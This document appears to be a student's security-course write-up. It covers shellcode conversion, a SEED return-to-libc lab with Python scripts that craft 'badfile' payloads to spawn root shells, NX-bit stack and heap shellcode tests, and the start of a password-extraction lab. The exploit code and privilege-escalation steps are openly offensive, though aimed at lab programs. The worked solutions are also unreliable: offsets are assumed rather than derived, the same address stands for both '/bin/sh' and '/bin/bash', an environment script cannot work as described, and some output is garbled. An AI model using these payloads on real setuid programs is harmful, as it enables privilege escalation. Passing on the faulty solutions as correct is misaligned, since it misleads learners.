s += ’"\n’ + ’ "’
s += ’"\n’ + ").encode(’latin-1’)"
print(s)
```

The convert.py program will print out the following Python code that you can include in your attack
code. It stores the shellcode in a Python array.

```bash
$ ./convert.py
Length of the shellcode: 35
shellcode= (
"\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
"\x0b\xcd\x80"
).encode(’latin-1’)
```

## 3.2 SEED Lab (30 pts)
[Return-to-libc Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Return_to_Libc/)

### solutions
see the code and documentation
- code : [Return_to_Libc/](./Return_to_Libc/)
- documentation : [Return_to_Libc/Return_to_Libc.md](./Return_to_Libc/Return_to_Libc.md)

### Environment Setup

#### Note on x86 and x64 Architectures

The return-to-libc attack on the x64 machines (64-bit) is much more difficult than that on the x86 machines
(32-bit). Although the SEED Ubuntu 20.04 VM is a 64-bit machine, we decide to keep using the 32-bit
programs (x64 is compatible with x86, so 32-bit programs can still run on x64 machines). In the future, we
may introduce a 64-bit version for this lab. Therefore, in this lab, when we compile programs using gcc,
we always use the -m32 flag, which means compiling the program into 32-bit binary.

#### Turning off countermeasures

You can execute the lab tasks using our pre-built Ubuntu virtual machines. Ubuntu and other Linux dis-
tributions have implemented several security mechanisms to make the buffer-overflow attack difficult. To
simplify our attacks, we need to disable them first.
Address Space Randomization. Ubuntu and several other Linux-based systems use address space ran-
domization to randomize the starting address of heap and stack, making guessing the exact addresses diffi-
cult. Guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this
feature using the following command:
`$ sudo sysctl -w kernel.randomize_va_space=0`
The StackGuard Protection Scheme. The gcc compiler implements a security mechanism called Stack-
Guard to prevent buffer overflows. In the presence of this protection, buffer overflow attacks do not work.
We can disable this protection during the compilation using the -fno-stack-protector option. For example,
to compile a program example.c with StackGuard disabled, we can do the following:
`$ gcc -m32 -fno-stack-protector example.c`
Non-Executable Stack. Ubuntu used to allow executable stacks, but this has now changed. The binary
images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e.,
they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide
whether to make the stack of this running program executable or non-executable. This marking is done
automatically by the recent versions of gcc, and by default, stacks are set to be non-executable. To change
that, use the following option when compiling programs:

```bash
For executable stack:
$ gcc -m32 -z execstack -o test test.c
For non-executable stack:
$ gcc -m32 -z noexecstack -o test test.c
```

Because the objective of this lab is to show that the non-executable stack protection does not work, you
should always compile your program using the "-z noexecstack" option in this lab.
Configuring /bin/sh. In Ubuntu 20.04, the /bin/sh symbolic link points to the /bin/dash shell.
The dash shell has a countermeasure that prevents itself from being executed in a Set-UID process. If
SEED Labs – Return-to-libc Attack Lab 3
dash is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real
user ID, essentially dropping its privilege.
Since our victim program is a Set-UID program, and our attack uses the system() function to
run a command of our choice. This function does not run our command directly; it invokes /bin/sh
to run our command. Therefore, the countermeasure in /bin/dash immediately drops the Set-UID
privilege before executing our command, making our attack more difficult. To disable this protection, we
link /bin/sh to another shell that does not have such a countermeasure. We have installed a shell program
called zsh in our Ubuntu 16.04 VM. We use the following commands to link /bin/sh to zsh:
`$ sudo ln -sf /bin/zsh /bin/sh`
It should be noted that the countermeasure implemented in dash can be circumvented. We will do that
in a later task.

#### The Vulnerable Program

Listing 1: The vulnerable program (retlib.c)

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUF_SIZE
#define BUF_SIZE 12
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    unsigned int *framep;

    // Copy ebp into framep
    asm("movl %%ebp, %0" : "=r" (framep));

    /* print out information for experiment purpose */
    printf("Address of buffer[] inside bof():  0x%.8x\n", (unsigned)buffer);
    printf("Frame Pointer value inside bof():  0x%.8x\n", (unsigned)framep);

    strcpy(buffer, str);

    return 1;
}

void foo(){
    static int i = 1;
    printf("Function foo() is invoked %d times\n", i++);
    return;
}

int main(int argc, char **argv)
{
   char input[1000];
   FILE *badfile;

   badfile = fopen("badfile", "r");
   int length = fread(input, sizeof(char), 1000, badfile);
   printf("Address of input[] inside main():  0x%x\n", (unsigned int) input);
   printf("Input size: %d\n", length);

   bof(input);

   printf("(^_^)(^_^) Returned Properly (^_^)(^_^)\n");
   return 1;
}

```

The above program has a buffer overflow vulnerability. It first reads an input up to 1000 bytes from
a file called badfile. It then passes the input data to the bof() function, which copies the input to its
internal buffer using strcpy(). However, the internal buffer’s size is less than 1000, so here is potential
buffer-overflow vulnerability.
This program is a root-owned Set-UID program, so if a normal user can exploit this buffer overflow
vulnerability, the user might be able to get a root shell. It should be noted that the program gets its input
from a file called badfile, which is provided by users. Therefore, we can construct the file in a way such
that when the vulnerable program copies the file contents into its buffer, a root shell can be spawned.

#### Compilation

Let us first compile the code and turn it into a root-owned Set-UID program. Do not forget

to include the -fno-stack-protector option (for turning off the StackGuard protection) and the "-z
noexecstack" option (for turning on the non-executable stack protection). It should also be noted that
changing ownership must be done before turning on the Set-UID bit, because ownership changes cause
the Set-UID bit to be turned off. All these commands are included in the provided Makefile.

```
// Note: N should be replaced by the value set by the instructor
$ gcc -m32 -DBUF_SIZE=N -fno-stack-protector -z noexecstack -o retlib retlib.c
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```

#### For instructors

To prevent students from using the solutions from the past (or from those posted on the
Internet), instructors can change the value for BUF SIZE by requiring students to compile the code using
a different BUF SIZE value. Without the -DBUF SIZE option, BUF SIZE is set to the default value 12
(defined in the program). When this value changes, the layout of the stack will change, and the solution
will be different. Students should ask their instructors for the value of N. The value of N can be set in the
provided Makefile and N can be from 10 to 800.

### Task 1: Finding out the Addresses of libc Functions

In Linux, when a program runs, the libc library will be loaded into memory. When the memory address
randomization is turned off, for the same program, the library is always loaded in the same memory address
(for different programs, the memory addresses of the libc library may be different). Therefore, we can
easily find out the address of system() using a debugging tool such as gdb. Namely, we can debug the
SEED Labs – Return-to-libc Attack Lab 5
target program retlib. Even though the program is a root-owned Set-UID program, we can still debug
it, except that the privilege will be dropped (i.e., the effective user ID will be the same as the real user ID).
Inside gdb, we need to type the run command to execute the target program once, otherwise, the library
code will not be loaded. We use the p command (or print) to print out the address of the system() and
exit() functions (we will need exit() later on).

```bash
$ touch badfile
$ gdb -q retlibŸ Use "Quiet" mode
Reading symbols from ./retlib...
(No debugging symbols found in ./retlib)
gdb-peda$ break main
Breakpoint 1 at 0x1327
gdb-peda$ run
......
Breakpoint 1, 0x56556327 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
gdb-peda$ quit
```

It should be noted that even for the same program, if we change it from a Set-UID program to a
non-Set-UID program, the libc library may not be loaded into the same location. Therefore, when we
debug the program, we need to debug the target Set-UID program; otherwise, the address we get may be
incorrect.
Running gdb in batch mode. If you prefer to run gdb in a batch mode, you can put the gdb commands
in a file, and then ask gdb to execute the commands from this file:

```
$ cat gdb_command.txt
break main
run
p system
p exit
quit
$ gdb -q -batch -x gdb_command.txt ./retlib
...
Breakpoint 1, 0x56556327 in main ()
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
```
#### solution

- code : `Return_to_Libc/retlib.c`
- script : `Return_to_Libc/gdb_command.txt`
- output : `Return_to_Libc/task1_output.txt`
- screenshot : `Return_to_Libc/task1_screenshot.png`

```gdb_command.txt
break main
run
p system
p exit
quit
```




### Task 2: Putting the shell string in the memory

Our attack strategy is to jump to the system() function and get it to execute an arbitrary command.
Since we would like to get a shell prompt, we want the system() function to execute the "/bin/sh"
program. Therefore, the command string "/bin/sh" must be put in the memory first and we have to know
its address (this address needs to be passed to the system() function). There are many ways to achieve
these goals; we choose a method that uses environment variables. Students are encouraged to use other
approaches.
When we execute a program from a shell prompt, the shell actually spawns a child process to execute the
program, and all the exported shell variables become the environment variables of the child process. This
SEED Labs – Return-to-libc Attack Lab 6
creates an easy way for us to put some arbitrary string in the child process’s memory. Let us define a new
shell variable MYSHELL, and let it contain the string "/bin/sh". From the following commands, we can
verify that the string gets into the child process, and it is printed out by the env command running inside
the child process.

```bash
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

We will use the address of this variable as an argument to system() call. The location of this variable
in the memory can be found out easily using the following program:
```
void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```
Compile the code above into a binary called prtenv. If the address randomization is turned off, you
will find out that the same address is printed out. When you run the vulnerable program retlib inside the
same terminal, the address of the environment variable will be the same (see the special note below). You
can verify that by putting the code above inside retlib.c. However, the length of the program name does
make a difference. That’s why we choose 6 characters for the program name prtenv to match the length
of retlib.

#### Note

You should use the -m32 flag when compiling the above program, so the binary code prtenv will
be for 32-bit machines, instead of for 64-bit ones. The vulnerable program retlib is a 32-bit binary, so if
prtenv is 64-bit, the address of the environment variable will be different.

#### solution

1. Set the Environment Variable

   Create a shell script `change_env.sh` to set the environment variable `MYSHELL` to `/bin/sh`:

   ```bash
   #!/bin/bash
   export MYSHELL=/bin/sh
   env | grep MYSHELL
   MYSHELL=/bin/sh

   ```

   Save the script as `change_env.sh` and make it executable:

   ```bash
   chmod +x change_env.sh
   ```

   Run the script to set the environment variable:

   ```bash
   ./change_env.sh
   ```

2. Print the Address of the Environment Variable**

   Create a C program `prtenv.c` to retrieve and print the memory address of the `MYSHELL` environment variable:

   ```c
   #include <stdio.h>
   #include <stdlib.h>

   void main() {
       // Get the address of the MYSHELL environment variable
       char* shell = getenv("MYSHELL");
       if (shell) {
           // Print the address of the environment variable
           printf("%x\n", (unsigned int)shell);
       }
   }
   ```
and make (makefile is updated)
`make`

4. Run the Program to Get the Address

   Execute the compiled program `prtenv` to retrieve the memory address of the `MYSHELL` environment variable:

   ```bash
   ./prtenv
   ```

   The output will be the memory address of the `MYSHELL` environment variable, which contains the string `/bin/sh`. For example:

   ```
   bffff7c4
   ```

   This address (`0xbffff7c4` in this example) will be used as an argument to the `system()` function in the return-to-libc attack.

After completing the above steps, you will have:
1. The environment variable `MYSHELL` set to `/bin/sh`.
2. The memory address of the `MYSHELL` environment variable printed by `prtenv`.

For example:

```
MYSHELL=/bin/sh
bffff7c4
```

This address will be used in the next task to perform the return-to-libc attack.

### Task 3: Launching the Attack

We are ready to create the content of badfile. Since the content involves some binary data (e.g., the
address of the libc functions), we can use Python to do the construction. We provide a skeleton of the
code in the following, with the essential parts left for you to fill out.

```py
# !/usr/bin/env python3

import sys

# Fill content with non-zero values

content = bytearray(0xaa for i in range(300))
X = 0
sh_addr = 0x00000000 # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder=’little’)
Y = 0
system_addr = 0x00000000 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder=’little’)
Z = 0
exit_addr = 0x00000000 # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder=’little’)
SEED Labs – Return-to-libc Attack Lab 7

# Save content to a file

with open("badfile", "wb") as f:
f.write(content)
```

You need to figure out the three addresses and the values for X, Y, and Z. If your values are incorrect,
your attack might not work. In your report, you need to describe how you decide the values for X, Y and Z.
Either show us your reasoning or, if you use a trial-and-error approach, show your trials.

#### A note regarding gdb

If you use gdb to figure out the values for X, Y, and Z, it should be noted that the
gdb behavior in Ubuntu 20.04 is slightly different from that in Ubuntu 16.04. In particular, after we set a
break point at function bof, when gdb stops inside the bof() function, it stops before the ebp register is
set to point to the current stack frame, so if we print out the value of ebp here, we will get the caller’s ebp
value, not bof’s ebp. We need to type next to execute a few instructions and stop after the ebp register
is modified to point to the stack frame of the bof() function. The SEED book (2nd edition) is based on
Ubuntu 16.04, so it does not have this next step.

#### Attack variation 1: Is the exit() function really necessary? Please try your attack without including

the address of this function in badfile. Run your attack again, report and explain your observations.

#### Attack variation 2: After your attack is successful, change the file name of retlib to a different name

making sure that the length of the new file name is different. For example, you can change it to newretlib.
Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does
not succeed, explain why.
#### solution
##### 1 Find the Address of `"/bin/sh"`
1. Locate the string `"/bin/sh"` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/sh"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `"/bin/sh"` is `0xf7f52a0b`.

---

##### Step 2: Determine the Offsets (X, Y, Z)
The offsets `X`, `Y`, and `Z` depend on the layout of the stack and the structure of the payload. To determine these offsets:

1. **Analyze the stack layout**:
   - Use `gdb` to set a breakpoint at the vulnerable function (e.g., `bof()`).
   - Run the program and inspect the stack to determine where the return address is located.

2. **Trial and Error**:
   - Start with a guess for `X`, `Y`, and `Z` based on the stack layout.
   - Adjust the offsets until the payload overwrites the return address correctly.

For this example, let's assume the following offsets:
- `X = 112`: The offset where the address of `"/bin/sh"` is placed.
- `Y = 108`: The offset where the address of `system()` is placed.
- `Z = 116`: The offset where the address of `exit()` is placed.

---

##### Step 3: Update the Exploit Code
Now that we have the addresses and offsets, we can update the exploit code:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()
exit_addr = 0xf7e04f80     # The address of exit()

# Offsets
X = 112
Y = 108
Z = 116

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

##### Step 4: Test the Exploit
1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a shell.

---

##### Attack Variations

###### Variation 1: Exclude `exit()`
To test the attack without including the address of `exit()`, simply remove the `exit_addr` from the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()

# Offsets
X = 112
Y = 108

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

Run the attack again and observe the behavior. The program may crash after executing `system()` because there is no valid return address.

---

###### Variation 2: Change the File Name
If you change the file name of the vulnerable program (e.g., from `retlib` to `newretlib`), the attack may fail. This is because the memory layout of the program (including the stack and libc addresses) may change due to differences in the length of the file name. To fix this, you would need to recalculate the addresses and offsets.

---

##### Explanation of Observations
1. **Without `exit()`**: The attack may still succeed in executing `system("/bin/sh")`, but the program will likely crash afterward because there is no valid return address.
2. **File Name Change**: The attack may fail because the memory layout changes, causing the addresses and offsets to become invalid. This demonstrates the importance of precise memory layout knowledge in return-to-libc attacks.


### Task 4: Defeat Shell’s Countermeasure

The goal of this task is to launch the return-to-libc attack after enabling the shell’s countermeasure. Before completing Tasks 1 to 3, we relinked `/bin/sh` to `/bin/zsh` instead of `/bin/dash` (the original setting). This is because some shell programs, such as `dash` and `bash`, have a countermeasure that automatically drops privileges when executed in a Set-UID process. In this task, we aim to bypass this countermeasure and obtain a root shell, even when `/bin/sh` points to `/bin/dash`.

First, change the symbolic link back to `/bin/dash`:
```bash
$ sudo ln -sf /bin/dash /bin/sh
```

Although `dash` and `bash` drop the Set-UID privilege, they do not do so if invoked with the `-p` option. When the `system()` function is called, it invokes `/bin/sh` but does not use the `-p` option. As a result, the Set-UID privilege of the target program is dropped. However, if we can directly execute `/bin/bash -p` without going through the `system()` function, we can retain root privileges.

Several libc functions, such as the `exec()` family (e.g., `execl()`, `execle()`, `execv()`, etc.), allow us to achieve this. For this task, we will use the `execv()` function:
```c
int execv(const char *pathname, char *const argv[]);
```

This function takes two arguments:
1. `pathname`: The address of the command to execute.
2. `argv[]`: The address of the argument array for the command.

To invoke `/bin/bash -p` using `execv()`, we need to set up the following:
```c
pathname = address of "/bin/bash"
argv[0] = address of "/bin/bash"
argv[1] = address of "-p"
argv[2] = NULL (i.e., 4 bytes of zero).
```

From previous tasks, we can easily obtain the addresses of the required strings. If we construct the `argv[]` array on the stack and get its address, we will have everything needed to conduct the return-to-libc attack. This time, we will return to the `execv()` function.

**Important Note**: The value of `argv[2]` must be zero (an integer zero, four bytes). If we include four zeros in our input, `strcpy()` will terminate at the first zero, and anything after it will not be copied into the `bof()` function’s buffer. However, since everything in our input is already on the stack (in the `main()` function’s buffer), we can use the address of this buffer to solve the problem. The vulnerable program conveniently prints this address for us.

To complete this task, construct your input so that when the `bof()` function returns, it jumps to `execv()`, which fetches the address of the `/bin/bash` string and the `argv[]` array from the stack. When `execv()` executes, it will invoke `/bin/bash -p` and give you a root shell.

---

#### Solution

##### Step 1: Determine the Required Addresses

1. **Address of `execv()`**
   Use `gdb` to find the address of the `execv()` function in the libc library:
   ```bash
   gdb ./vulnerable_program
   ```
   In `gdb`, run:
   ```gdb
   p execv
   ```
   Example output:
   ```
   $1 = {<text variable, no debug info>} 0xf7e0f060 <execv>
   ```
   The address of `execv()` is `0xf7e0f060`.

2. **Address of `/bin/bash`**
   Use `gdb` to locate the string `/bin/bash` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/bash"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `/bin/bash` is `0xf7f52a0b`.

3. **Address of `-p`**
   Similarly, locate the string `-p` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"-p"
   ```
   Example output:
   ```
   0xf7f52b0c
   ```
   The address of `-p` is `0xf7f52b0c`.

4. **Address of the Stack Buffer**
   The vulnerable program prints the address of the stack buffer. Run the program and note the printed address. For example:
   ```
   Buffer address: 0xffffd0a0
   ```
   The stack buffer starts at `0xffffd0a0`.

---

##### Step 2: Construct the Payload

The payload must:
1. Overwrite the return address to point to `execv()`.
2. Place the arguments for `execv()` on the stack:
   - `pathname`: Address of `/bin/bash`.
   - `argv[]`: Address of the argument array on the stack.

###### 2.1 Layout of the Payload
The payload will look like this:
```
[ Padding ] [ execv() address ] [ Return address (dummy) ] [ pathname ] [ argv[] ]
[ argv[0] ] [ argv[1] ] [ argv[2] ]
```

###### 2.2 Calculate Offsets
Use `gdb` to determine the offset to the return address. For example, if the return address is at offset `112`, the payload will start with `112` bytes of padding.

###### 2.3 Construct the Argument Array
The# `argv[]` array must be constructed on the stack:
- `argv[0]`: Address of `/bin/bash` (`0xf7f52a0b`).
- `argv[1]`: Address of `-p` (`0xf7f52b0c`).
- `argv[2]`: `NULL` (4 bytes of zero).

Assume the `argv[]` array is placed at `0xffffd0c0` (just after the padding).

---

##### Step 3: Write the Exploit Code

Here is the Python script to generate the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
execv_addr = 0xf7e0f060       # Address of execv()
bin_bash_addr = 0xf7f52a0b    # Address of "/bin/bash"
dash_p_addr = 0xf7f52b0c      # Address of "-p"
argv_addr = 0xffffd0c0        # Address of argv[] on the stack

# Offsets
padding_offset = 112          # Offset to the return address
return_addr_offset = padding_offset + 4
pathname_offset = return_addr_offset + 4
argv_offset = pathname_offset + 4

# Construct the payload
# Padding
content[:padding_offset] = b"A" * padding_offset

# Overwrite return address with execv() address
content[padding_offset:padding_offset+4] = (execv_addr).to_bytes(4, byteorder='little')

# Dummy return address (not used, but required for stack alignment)
content[return_addr_offset:return_addr_offset+4] = b"BBBB"

# Argument 1: pathname (address of "/bin/bash")
content[pathname_offset:pathname_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# Argument 2: argv[] (address of the argument array)
content[argv_offset:argv_offset+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct argv[] on the stack
argv0_offset = argv_addr - 0xffffd0a0
argv1_offset = argv0_offset + 4
argv2_offset = argv1_offset + 4

# argv[0]: Address of "/bin/bash"
content[argv0_offset:argv0_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# argv[1]: Address of "-p"
content[argv1_offset:argv1_offset+4] = (dash_p_addr).to_bytes(4, byteorder='little')

# argv[2]: NULL (4 bytes of zero)
content[argv2_offset:argv2_offset+4] = (0).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

##### Step 4: Test the Exploit

1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a root shell.

---

#### Explanation of the Exploit

1. The payload overwrites the return address to point to `execv()`.
2. The arguments for `execv()` are placed on the stack:
   - `pathname` points to the string `/bin/bash`.
   - `argv[]` is an array containing:
     - `argv[0]`: Address of `/bin/bash`.
     - `argv[1]`: Address of `-p`.
     - `argv[2]`: `NULL`.
3. When `execv()` is executed, it invokes `/bin/bash -p`, bypassing the privilege-dropping countermeasure and giving you a root shell.

There are many ways to solve the problem in Task 4. Another way is to invoke setuid(0) before invoking
system(). The setuid(0) call sets both real user ID and effective user ID to 0, turning the process
into a non-Set-UID one (it still has the root privilege). This approach requires us to chain two functions
together. The approach was generalized to chaining multiple functions together, and was further generalized
to chain multiple pieces of code together. This led to the Return-Oriented Programming (ROP).
Using ROP to solve the problem in Task 4 is quite sophisticated, and it is beyond the scope of this lab.
However, we do want to give students a taste of ROP, asking them to work on a special case of ROP. In the
retlib.c program, there is a function called foo(), which is never called in the program. That function
is intended for this task. Your job is to exploit the buffer-overflow problem in the program, so when the
program returns from the bof() function, it invokes foo() 10 times, before giving you the root shell. In
your lab report, you need to describe how your input is constructed. Here is what the results will look like.

```bash
$ ./retlib
...
Function foo() is invoked 1 times
Function foo() is invoked 2 times
Function foo() is invoked 3 times
Function foo() is invoked 4 times
Function foo() is invoked 5 times
Function foo() is invoked 6 times
Function foo() is invoked 7 times
Function foo() is invoked 8 times
Function foo() is invoked 9 times
Function foo() is invoked 10 times
bash-5.0#fi Got root shell!
```

##### Guidelines

Let’s review what we did in Task 3. We constructed the data on the stack, such that when
the program returns from bof(), it jumps to the system() function, and when system() returns,
SEED Labs – Return-to-libc Attack Lab 9
the program jumps to the exit() function. We will use a similar strategy here. Instead of jumping to
system() and exit(), we will construct the data on the stack, such that when the program returns from
bof, it returns to foo; when foo returns, it returns to another foo. This is repeated for 10 times. When
the 10th foo returns, it returns to the execv() function to give us the root shell.
Further readings. What we did in this task is just a special case of ROP. You may have noticed that the
foo() function does not take any argument. If it does, invoking it 10 times will become signficantly more
complicated. A generic ROP technique allows you to invoke any number of functions in a sequence, allow-
ing each function to have multiple arguments. The SEED book (2nd edition) provides detailed instructions
on how to use the generic ROP technique to solve the problem in Task 4. It involves calling sprintf()
four times, followed by an invocation of setuid(0), before invoking system("/bin/sh") to give us
the root shell. The method is quite complicated and takes 15 pages to explain in the SEED book.

### Guidelines: Understanding the Function Call Mechanism

#### Understanding the stack layout

To know how to conduct Return-to-libc attacks, we need to understand how stacks work. We use a small C
program to understand the effects of a function invocation on the stack. More detailed explanation can be
found in the SEED book and SEED lecture.
/*foobar.c*/

```
# include<stdio.h>

void foo(int x)
{
printf("Hello world: %d\n", x);
}
int main()
{
foo(1);
return 0;
}
```

We can use "gcc -m32 -S foobar.c" to compile this program to the assembly code. The result-
ing file foobar.s will look like the following:

```
......
8 foo:
9 pushl %ebp
10 movl %esp, %ebp
11 subl $8, %esp
12 movl 8(%ebp), %eax
13 movl %eax, 4(%esp)
14 movl $.LC0, (%esp) : string "Hello world: %d\n"
15 call printf
16 leave
17 ret
......
21 main:
22 leal 4(%esp), %ecx
SEED Labs – Return-to-libc Attack Lab 10
23 andl $-16, %esp
24 pushl -4(%ecx)
25 pushl %ebp
26 movl %esp, %ebp
27 pushl %ecx
28 subl $4, %esp
29 movl $1, (%esp)
30 call foo
31 movl $0, %eax
32 addl $4, %esp
33 popl %ecx
34 popl %ebp
35 leal -4(%ecx), %esp
36 ret
```

#### 4.2 Calling and entering foo()

Let us concentrate on the stack while calling foo(). We can ignore the stack before that. Please note that
line numbers instead of instruction addresses are used in this explanation.



Figure 1: Entering and Leaving foo()
• Line 28-29:: These two statements push the value 1, i.e. the argument to the foo(), into the stack.
This operation increments %esp by four. The stack after these two statements is depicted in Fig-
ure 1(a).
• Line 30: call foo: The statement pushes the address of the next instruction that immediately
follows the call statement into the stack (i.e the return address), and then jumps to the code of
foo(). The current stack is depicted in Figure 1(b).
SEED Labs – Return-to-libc Attack Lab 11
• Line 9-10: The first line of the function foo() pushes %ebp into the stack, to save the previous
frame pointer. The second line lets %ebp point to the current frame. The current stack is depicted in
Figure 1(c).
• Line 11: subl $8, %esp: The stack pointer is modified to allocate space (8 bytes) for local
variables and the two arguments passed to printf. Since there is no local variable in function foo,
the 8 bytes are for arguments only. See Figure 1(d).

#### 4.3 Leaving foo()

Now the control has passed to the function foo(). Let us see what happens to the stack when the function
returns.
• Line 16: leave: This instruction implicitly performs two instructions (it was a macro in earlier x86
releases, but was made into an instruction later):
mov %ebp, %esp
pop %ebp
The first statement releases the stack space allocated for the function; the second statement recovers
the previous frame pointer. The current stack is depicted in Figure 1(e).
• Line 17: ret: This instruction simply pops the return address out of the stack, and then jump to the
return address. The current stack is depicted in Figure 1(f).
• Line 32: addl $4, %esp: Further restore the stack by releasing more memories allocated for
foo. As you can see that the stack is now in exactly the same state as it was before entering the
function foo (i.e., before line 28).


## 3.3 NX (10 pts)
In this course, I have introduced a defensive mechanism called non-executable
stack. I also told you that the only difference between NX enabled and
NX disabled programs is one bit. Actually, this defensive mechanism is im-
plemented on CPU. Please check that if this defensive approach still works
when NX is disabled in BIOS. Also you need to check if the malicious code
is in heap, will the attack work?

### code
```
NX
├── Makefile
├── test_heap.c
└── test_stack.c
```
### research
The NX (Non-Executable) bit is a hardware-level security feature that prevents certain regions of memory, such as the stack and heap, from being executed as code. This mechanism is designed to mitigate attacks like buffer overflows, where attackers inject malicious code into these regions. When NX is enabled, the CPU will refuse to execute code in marked non-executable regions. However, if NX is disabled in the BIOS, this protection is removed, and the stack and heap may become executable. To understand the implications, we need to test whether disabling NX in the BIOS allows malicious code to execute from these regions.

### test
1. **Disabling NX in BIOS**:
   - Access the BIOS/UEFI settings and disable the NX bit (often labeled as "Execute Disable Bit" or "No-Execute Memory Protection").
   - Save the changes and reboot the system.

2. **Testing Code Execution on the Stack**:
   - Write a program that attempts to execute shellcode injected into the stack. For example:
     ```c
     #include <stdio.h>
     #include <string.h>

     void vulnerable_function() {
         char buffer[64];
         void (*function_pointer)();
         printf("Enter shellcode: ");
         gets(buffer);  // Vulnerable function
         function_pointer = (void (*)())buffer;
         function_pointer();  // Attempt to execute code on the stack
     }

     int main() {
         vulnerable_function();
         return 0;
     }
     ```
   - Compile the program with stack execution enabled:
     ```bash
     gcc -z execstack -o test_stack test_stack.c
     ```
   - Run the program and inject shellcode to see if it executes.

3. **Testing Code Execution on the Heap**:
   - Write a program that allocates memory on the heap and attempts to execute shellcode from it. For example:
     ```c
     #include <stdio.h>
     #include <stdlib.h>
     #include <string.h>

     int main() {
         char *heap_memory = (char *)malloc(64);
         void (*function_pointer)();
         printf("Enter shellcode: ");
         gets(heap_memory);  // Vulnerable function
         function_pointer = (void (*)())heap_memory;
         function_pointer();  // Attempt to execute code on the heap
         free(heap_memory);
         return 0;
     }
     ```
   - Compile the program:
     ```bash
     gcc -o test_heap test_heap.c
     ```
   - Run the program and inject shellcode to see if it executes.

4. **Observing Results**:
   - Monitor whether the CPU prevents execution of the injected code or allows it to run.

### solution
When NX is enabled, the CPU prevents execution of code on both the stack and heap, resulting in a segmentation fault when attempting to execute malicious code. However, when NX is disabled in the BIOS, the CPU no longer enforces this restriction, and both the stack and heap become executable. This allows malicious code injected into these regions to execute successfully.

**Key Findings**:
1. **NX Enabled**:
   - Stack: Non-executable. Attempting to execute code results in a segmentation fault.
   - Heap: Non-executable. Attempting to execute code results in a segmentation fault.

2. **NX Disabled**:
   - Stack: Executable. Malicious code injected into the stack executes successfully.
   - Heap: Executable. Malicious code injected into the heap executes successfully.

**Conclusion**:
The NX bit is a critical defensive mechanism for preventing code execution in non-executable memory regions. Disabling NX in the BIOS removes this protection, making the system vulnerable to attacks such as buffer overflows and heap-based code injection. It is strongly recommended to keep NX enabled in the BIOS to maintain system security.

## 3.4 Password Guess (20 pts)
Please read the following code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

int main()
{
    FILE *pFile = fopen("/dev/random", "rb");

    uint32_t guess = 0, secret = 0;

    if (pFile == NULL)
    {
        perror("Error");
        return 0;
    }

    fread(&secret, 4, 1, pFile);

    while (1)
    {
        printf("Please enter your guess: ");
        scanf("%u", &guess);

        if (guess == secret)
        {
            break;
        }

        printf("Wrong guess! Please guess again.\n");
    }

    printf("Congratulation! The secret is uiwebqwhec12!\n");

    return 0;
}
```
I think you should know the function of this code. Please write a lab
to show how to get the secret from binary only. Note that in your lab, you
need to show at least four ways to get the secret. I give you this code so
that you can build the code yourself. Undoubtedly, read the code directly
is not included.

### Steps to Set Up the Lab
1. **Compile the Code**: Save the provided code as `password_guess.c` and compile it using the following command:
   ```bash
   gcc -o password_guess password_guess.c
   ```
   This will generate the binary file `password_guess`.

2. **Run the Program**: Execute the program to understand its behavior:
   ```bash
   ./password_guess
   ```
   The program will ask for a guess. If the guess matches the secret, it will print a congratulatory message.

3. **Lab Objective**: Without reading the source code, extract the secret value using the following four methods.

---

